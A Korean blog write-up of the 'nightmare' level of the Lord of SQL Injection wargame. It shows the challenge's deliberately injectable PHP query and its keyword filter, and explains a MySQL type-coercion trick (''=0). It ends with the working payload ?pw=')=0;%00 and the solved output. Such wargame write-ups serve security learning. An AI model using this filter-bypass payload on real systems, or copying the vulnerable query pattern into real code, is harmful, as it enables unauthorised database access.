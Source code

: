 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nightmare 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `nightmare`이다.  

문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.  

그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.  

그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.  

결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.  

이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.  

이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.  

이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.  

그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
------------------------------------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`NIGHTMARE Clear!!`
